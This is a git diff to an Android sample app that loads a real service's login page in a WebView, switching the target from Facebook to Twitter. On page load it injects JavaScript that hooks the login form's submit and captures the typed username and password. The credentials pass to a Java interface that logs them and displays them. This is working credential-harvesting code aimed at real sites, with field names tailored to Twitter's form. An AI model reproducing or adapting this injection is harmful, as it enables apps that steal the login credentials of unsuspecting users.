

change example Facebook to Twitter

diff --git a/sample/src/main/java/example/henrychuang/sample/Main.java b/sample/src/main/java/example/henrychuang/sample/Main.java
@@ -7,6 +7,7 @@ import android.content.DialogInterface;
 import android.os.Bundle;
 import android.util.Log;
 import android.webkit.JavascriptInterface;
+import android.webkit.WebChromeClient;
 import android.webkit.WebView;
 import android.webkit.WebViewClient;
 
@@ -19,13 +20,15 @@ public class Main extends Activity {
         super.onCreate(savedInstanceState);
         setContentView(R.layout.main);
 
-        webview1 = (WebView)findViewById(R.id.myWebview);
+        webview1 = (WebView) findViewById(R.id.myWebview);
 
         webview1.getSettings().setJavaScriptEnabled(true);
+        webview1.setWebChromeClient(new WebChromeClient());
         webview1.addJavascriptInterface(new MyJavaScriptInterface(), "MYOBJECT");
         webview1.setWebViewClient(new WebViewClient() {
             @Override
             public boolean shouldOverrideUrlLoading(WebView view, String url) {
+//                Log.d("henrytest", "shouldOverrideUrlLoading");
                 view.loadUrl(url);
                 return true;
             }
@@ -35,36 +38,40 @@ public class Main extends Activity {
                 super.onPageFinished(view, url);
 
                 StringBuilder sb = new StringBuilder();
-                sb.append("document.getElementsByTagName('form')[0].onsubmit = function () {");
-                sb.append("var objPWD, objAccount;var str = '';");
-                sb.append("var inputs = document.getElementsByTagName('input');");
-                sb.append("for (var i = 0; i < inputs.length; i++) {");
-		        sb.append("if (inputs[i].name.toLowerCase() === 'pass') {objPWD = inputs[i];}");
-		        sb.append("else if (inputs[i].name.toLowerCase() === 'email') {objAccount = inputs[i];}");
-                sb.append("}");
-                sb.append("if (objAccount != null) {str += objAccount.value;}");
-                sb.append("if (objPWD != null) { str += ' , ' + objPWD.value;}");
-                sb.append("window.MYOBJECT.processHTML(str);");
+                sb.append("var formxxx = document.getElementsByTagName('form')[0];");
+                sb.append("if(!(formxxx === undefined || formxxx === null)){");
+                sb.append(" formxxx.onsubmit = function () {");
+//                sb.append("     alert('onsubmit start');");
+                sb.append("     var objPWD, objAccount;var str = '';");
+                sb.append("     var inputs = document.getElementsByTagName('input');");
+                sb.append("     for (var i = 0; i < inputs.length; i++) {");
+                sb.append("         if (inputs[i].name.toLowerCase() === 'session[password]') {objPWD = inputs[i];}");
+                sb.append("         else if (inputs[i].name.toLowerCase() === 'session[username_or_email]') {objAccount = inputs[i];}");
+                sb.append("     }");
+                sb.append("     if (objAccount != null) {str += objAccount.value;}");
+                sb.append("     if (objPWD != null) { str += ' , ' + objPWD.value;}");
+                sb.append("     window.MYOBJECT.processHTML(str);");
 //                sb.append("window.MYOBJECT.processHTML(document.getElementsByTagName('form')[0].innerHTML);");
+//                sb.append("     alert('onsubmit end, str: ' + str);");
+                sb.append("     return true;");
+                sb.append(" };");
 
-                sb.append("return true;");
-                sb.append("};");
+                sb.append("}");
 
                 view.loadUrl("javascript:" + sb.toString());
+//                view.loadUrl("javascript:alert(123);");
             }
 
         });
 
-        String sUrl = "https://www.facebook.com/";
+        String sUrl = "https://twitter.com/";
         webview1.loadUrl(sUrl);
 
     }
 
-    class MyJavaScriptInterface
-    {
+    class MyJavaScriptInterface {
         @JavascriptInterface
-        public void processHTML(String html)
-        {
+        public void processHTML(String html) {
             Log.d("henrytest", html);
 
             AlertDialog.Builder builder = new AlertDialog.Builder(Main.this);
